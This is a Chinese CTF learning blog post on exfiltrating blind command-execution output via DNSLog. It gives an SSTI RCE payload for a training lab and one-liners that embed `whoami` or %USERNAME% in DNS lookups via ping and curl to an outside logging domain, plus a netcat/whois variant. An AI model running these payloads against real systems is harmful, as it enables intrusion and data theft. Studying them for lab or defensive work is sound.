




# 关于通过使用DNSLog在命令执行无回显下实现数据外带
## 前言

最近在做CTF题目的时候，学习了一些关于SSTI的相关知识，目前在使用SSITLab靶场进行学习实践
::github{repo="X3NNY/sstilabs"}
在Level 3中 no waf and blind 无回显
构造出来可以 RCE 的payload
```python
{{lipsum.__globals__['os'].popen('ls').read()}}
```
只回显
```
Hello correct
```
属于 blind 类型  并且发现可以出网 尝试DNSLog

## 常用场景

1. SQL盲注  
2. 无回显的XSS  
3. 无回显的命令执行  
4. 无回显的SSRF  
5. Blind XXE

这边的ssti也是属于`场景3` 然后使用流量数据外带<br>
之前[log4j2漏洞的验证](https://chuzoux.top/posts/cve-2021-44228/#%E6%BC%8F%E6%B4%9E%E9%AA%8C%E8%AF%81)中也使用了相同的方法

## 推荐平台

- [dig.pm](https://dig.pm/)
- [ceye.io](https://ceye.io/)
- [DNSLog](https://www.dnslog.cn/)

## Linux中的利用方式

### 反引号 + ping

```shell
ping `whoami`.658e5dcb64.ddns.1433.eu.org
```



### $() + ping

```shell
ping $('whoami').e6c6da99ff.ddns.1433.eu.org
```


### curl

```shell
curl $('whoami').d209fb7a01.ddns.1433.eu.org
```


### whois

先开启监听：
```shell
nc -lvp 666 
```

```shell
whois -h 127.0.0.1 -p 666 `whoami`
```



## Windows中的利用方式

### ping+系统变量

```shell
ping %USERNAME%.cdef887130.ddns.1433.eu.org
```



#### 常见系统变量列表

| 变量                       | 类型    | 描述                                                                |
| ------------------------ | ----- | ----------------------------------------------------------------- |
| %ALLUSERSPROFILE%        | 本地    | 返回“所有用户”配置文件的位置。                                                  |
| %APPDATA%                | 本地    | 返回默认情况下应用程序存储数据的位置。                                               |
| %CD%                     | 本地    | 返回当前目录字符串。                                                        |
| %CMDCMDLINE%             | 本地    | 返回用来启动当前的 Cmd.exe 的准确命令行。                                         |
| %CMDEXTVERSION%          | 系统    | 返回当前的“命令处理程序扩展”的版本号。                                              |
| %COMPUTERNAME%           | 系统    | 返回计算机的名称。                                                         |
| %COMSPEC%                | 系统    | 返回命令行解释器可执行程序的准确路径。                                               |
| %DATE%                   | 系统    | 返回当前日期。使用与 date /t 命令相同的格式。由 Cmd.exe 生成。有关 date 命令的详细信息，请参阅 Date。 |
| %ERRORLEVEL%             | 系统    | 返回上一条命令的错误代码。通常用非零值表示错误。                                          |
| %HOMEDRIVE%              | 系统    | 返回连接到用户主目录的本地工作站驱动器号。基于主目录值而设置。用户主目录是在“本地用户和组”中指定的。               |
| %HOMEPATH%               | 系统    | 返回用户主目录的完整路径。基于主目录值而设置。用户主目录是在“本地用户和组”中指定的。                       |
| %HOMESHARE%              | 系统    | 返回用户的共享主目录的网络路径。基于主目录值而设置。用户主目录是在“本地用户和组”中指定的。                    |
| %LOGONSERVER%            | 本地    | 返回验证当前登录会话的域控制器的名称。                                               |
| %NUMBER_OF_PROCESSORS%   | 系统    | 指定安装在计算机上的处理器的数目。                                                 |
| %OS%                     | 系统    | 返回操作系统名称。Windows 2000 显示其操作系统为 Windows_NT。                        |
| %PATH%                   | 系统    | 指定可执行文件的搜索路径。                                                     |
| %PATHEXT%                | 系统    | 返回操作系统认为可执行的文件扩展名的列表。                                             |
| %PROCESSOR_ARCHITECTURE% | 系统    | 返回处理器的芯片体系结构。值：x86 或 IA64（基于 Itanium）。                            |
| %PROCESSOR_IDENTFIER%    | 系统    | 返回处理器说明。                                                          |
| %PROCESSOR_LEVEL%        | 系统    | 返回计算机上安装的处理器的型号。                                                  |
| %PROCESSOR_REVISION%     | 系统    | 返回处理器的版本号。                                                        |
| %PROMPT%                 | 本地    | 返回当前解释程序的命令提示符设置。由 Cmd.exe 生成。                                    |
| %RANDOM%                 | 系统    | 返回 0 到 32767 之间的任意十进制数字。由 Cmd.exe 生成。                             |
| %SYSTEMDRIVE%            | 系统    | 返回包含 Windows server operating system 根目录（即系统根目录）的驱动器。             |
| %SYSTEMROOT%             | 系统    | 返回 Windows server operating system 根目录的位置。                        |
| %TEMP%和%TMP%             | 系统和用户 | 返回对当前登录用户可用的应用程序所使用的默认临时目录。有些应用程序需要 TEMP，而其他应用程序则需要 TMP。          |
| %TIME%                   | 系统    | 返回当前时间。使用与time /t命令相同的格式。由Cmd.exe生成。有关time命令的详细信息，请参阅 Time。       |
| %USERDOMAIN%             | 本地    | 返回包含用户帐户的域的名称。                                                    |
| %USERNAME%               | 本地    | 返回当前登录的用户的名称。                                                     |
| %USERPROFILE%            | 本地    | 返回当前用户的配置文件的位置。                                                   |
| %WINDIR%                 | 系统    | 返回操作系统目录的位置。                                                      |
